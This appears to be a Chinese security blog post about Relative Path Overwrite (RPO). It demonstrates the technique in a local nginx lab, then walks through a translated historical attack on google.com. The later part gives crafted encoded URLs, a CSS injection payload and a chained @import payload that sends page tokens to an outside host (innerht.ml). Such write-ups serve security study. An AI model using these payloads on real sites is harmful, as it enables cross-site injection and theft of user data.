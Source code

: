 ```yaml
---
layout: post
title:  "RPO相对路径覆盖的研究"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 什么是RPO

RPO (Relative Path Overwrite)相对路径覆盖，作为一种相对新型的攻击方式,由 Gareth Heyes在2014年首次提出，利用的是nginx服务器、配置错误的Apache服务器和浏览器之间对URL解析出现的差异，并借助文件中包含的相对路径的css或者js造成跨目录读取css或者js，甚至可以将本身不是css或者js的页面当做css或者js解析，从而触发xss等进一步的攻击手段  

## 什么情况会触发

触发这个漏洞有两个基本的前提:

> 1. Apache 配置错误导致AllowEncodedSlashes这个选项开启（对Apache来说默认情况下 AllowEncodedSlashes 这个选项是关闭的），或者nginx服务器  
> 2. 存在相对路径的js或者css的引用  

那么问题来了，为什么Apache不行Nginx可以？  
用的phpstudy 本地部署了apache.php和nginx.php  和一个空的test目录 都是echo相应的服务器名  
![图片1.png](https://i.loli.net/2020/01/24/oCd5gcRNVqYstIk.png)  
我们首先来看看Apache怎么说：  
![图片2.png](https://i.loli.net/2020/01/24/oXGdPVHyL4NimA6.png)  
Apache直接就不认识..%2f 我的天，那接下来看看nginx怎么说吧   
![图片3.png](https://i.loli.net/2020/01/24/LPyurjGITMldo4m.png)  
可以看到nginx吧..%2f当成了../也就是跳转到上一级目录的nginx.php 看起来是这样：127.0.0.1/rpo/nginx.php
所以apache默认是没有这玩意的

## 实验

在rpo目录下创建一个index.php 是这样子的:  

```PHP4
<html>

        <head></head>

        <body>

            <script src="a.js" charset="UTF-8"></script>

        </body>

    </html>

    <?php
	header("Content-type: text/html; charset=gb2312");
    echo "js 在test文件夹中";

?>
```

然后呢 test文件夹中有一个a.js 它只是一个普普通通的弹窗 并没有神马亮点：  
alert(“读取文件成功！”)  
然后我们尝试访问127.0.0.1/rpo/test/..%2findex.php  
![图片4.png](https://i.loli.net/2020/01/24/x2nMchZzVfOe4PC.png)  
果然 他成功弹窗了a.js的内容，那这时候就会有童鞋问了 我直接访问不行吗？  
![图片5.png](https://i.loli.net/2020/01/24/Ef43epuYOI61lMD.png)  
很遗憾并不行 咋肥四呢？这就是相对路径覆盖的魅力了  
我们向服务器提交我们想请求的URL  
[http://localhost/RPO/test/..%2findex.php](http://localhost/RPO/test/..%2findex.php)  
聪明的服务器会把..%2f自动进行URL解码，所以实际上服务器端看到你请求的URL是下面的样子：  
http://localhost/RPO/test/../index.php  
我们知道../ 在URL中会被理解成上一层目录，所以服务器实际上认为你访问的是下面的URL，并把index.php的内容返回给天真的浏览器  
http://localhost/RPO/index.php  
接下来浏览器的工作就是根据URL的路径处理index.php中引用的使用相对地址的脚本，可是万万没想到，浏览器它并不认识..%2f！！！于是URL在它眼里依旧是那可爱的样子：  
http://localhost/RPO/test/..%2findex.php  
此时无知的浏览器已经把..%2findex.php当成了一个文件，可它还是严格按照脚本的要求加载当前目录下的a.js文件，而对它来说现在的当前目录已变成了test，自然而然test（同目录）下的a.js就被成功加载了（同目录下嘛，嘿嘿你懂的！）  
那此时又有小伙伴问了 那我们做不到可控人家网站的js呀！是的 我们是无法直接控制人家服务器的js，但rpo另一个特点是，我们可以将服务器返回的内容按照js脚本的方式解析！而且因为是外部引用js 我们甚至都不需要标签  
这里我就不多赘述，给大家奉上一篇已经过翻译和标注的国外文章，希望各位能加深理解  

## 发现RPO

目前我们可以知道的RPO利用例子是James的PRSSI ，它依赖于CSS解析器容忍在quirks mode中的非法语法（也称为松散解析），所以查找RPO漏洞的第一步就是检查页面的是否有正确的doctype    
我找到一个目标：  
http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html

```html  
<html>  <head>  <title>Google Toolbar API - Guide to Making Custom Buttons</title>  <link href="../../styles.css" rel="stylesheet" type="text/css" />
```
  
第二步涉及到服务器如何解析路径。对于浏览器来说，目录之间被“/”隔开。对于服务器来说，这并不意味着一定是目录，比如说JSP接收参数时会将“;”后的内容全部视为参数 (e.g. http://example.com/path;/notpath)，这种情况下浏览器只会认为/patn;/notpath依旧是目录  
在目标中我找到可以利用RPO的地方，那里似乎有一个代理处理请求并解码路径中的内容，然后将其发送到真正的服务器。 这允许我们在路径中用％2f替换斜杠:  
http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html  
![图片6.png](https://i.loli.net/2020/01/24/atV8ZkMiE3PdGep.png)  

> Server:  
> **/tools/toolbar/buttons/apis/** howto_guide.html  
> Browser:  
> **/tools/toolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/** style.css   
> （加粗的表示为基本路径）  

现在浏览器认为基本路径是/tools/toolbar/buttons/而不是/tools/toolbar/buttons/apis/，因此对../../style.css的引用会多跳一个目录  
我们还能伪造目录，比如我们想加载的css文件在/tools/fake/styles.css：http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html  

> Server：   
> **/tools/ (fake/../抵消) toolbar/buttons/apis/** howto_guide.html   
> Browser：   
> **/tools/fake/..%2ftoolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/fake/**..%2ftoolbar/buttons/../../style.css   

这里我们添加了二个虚拟目录：fake和..%2f，这样在server角度下就互相抵消了，然后浏览器认为fake和..%2ftoolbar为目录。理论上，我们可以在根目录下导入任何样式表（www.google.com/\*/styles.css），不幸的是这个代理只能处理（www.google.com/tools/\*/styles.css），不是tools目录中的css文件就无法导入  
除了按钮Gallery 外都是些静态元素，http://www.google.com/tools/toolbar/buttons/gallery会重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1  
按钮Gallery有一个q参数，可以制作RPO的payload：http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}\*{background:red}  
效果如图所示:  
![图片7.png](https://i.loli.net/2020/01/24/qzEIA61wmiQHbC8.png)  
现在要做的就是如何以CSS方式来加载该页面。一种方法就是重定向处理查询字符串，例如，http://www.google.com/tools/toolbar/buttons/gallery?foo=bar会将我们重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&foo=bar， 查询的字符串会附加上  
最后一步就是构造查询字符串了：http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html  

> Server:   
> **/tools/toolbar/buttons/** (gallery?q=%0a{}\*{background:red}/../抵消) /apis/ howto_guide.html   
> Browser:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/** howto_guide.html   
> Imported stylesheet:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D** /..%2f/apis/../../style.css   
> ⇓   
> /tools/toolbar/buttons/gallery?**q=%0a{}*{background:red}/style.css**   
> ⇓   
> /gadgets/directory?synd=toolbar&frontpage=1&**q=%0a{}*{background:red}/style.css**  

![图片8.png](https://i.loli.net/2020/01/24/VQ1N957F8vmzMtq.png)  

看成功了，满页面都是红色。我们还能使用expression(alert(document.domain))，在IE8可以成功弹窗，但是在IE9却失败了。那是因为谷歌的defense-in-depth防止按钮以css方式加载（X-Content-Type-Options:nosniff 选项来关闭IE的文档类型自动判断功能）  
突然间所有的努力都是徒劳的，因为Google漏洞奖励计划（VRP）规则清楚地表明：In particular, we exclude Internet Explorer prior to version 9  

## Chaining Gadgets

嗯，如果我们使用RPO窃取其他页面上的秘密呢？ CSS的另一个有趣的事情是，在quirks mode下，只要它们在同一个起源，那么松散解析就适用于所有导入的样式表。这样就开启了一个新的可能性，因为我们可以使用Button Gallery作为小工具将https://www.google.com/\*上的任何网页导入为样式表，如果导入的“样式表”包含隐私数据和注入点，我们可以 尝试通过注入CSS魔法来窃取它  

这样的页面要求是：  
> * 注入点需要在隐私数据之前  
> * 注入点需要允许％0a，％0c和％0d中的任何一个，以便可以从错误的状态恢复解析器状态  
> * 隐私数据及其周围不能包含换行符  

我花了些时间找到了符合的页面：http://www.google.com/search?nord=1&**q={}%0a@import”//innerht.ml?**  
首先要注意的是，该页面针对速度进行了优化，因此HTML被压缩过，只有少数换行符。可以看到有一些随机生成的token。 我不知道他们代表什么，但是能够窃取他们应该足以证明这次攻击确实会渗透到数据中。截图中突出显示的部分是css魔术发生的地方：我们使用@import“// innerht.ml？创建import规则，然后直到双引号的所有内容将作为受控URL的一部分使用，最后浏览器会向import“URL”发出请求，我们就可以获取到数据内容  
http://www.google.com/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D%2540import%2527%252Fsearch%253Fnord%253D1%2526q%253D%257B%257D%25250a%2540import%252527%252F%252Finnerht.ml%253F%2522/..%2f/apis/howto_guide.html  
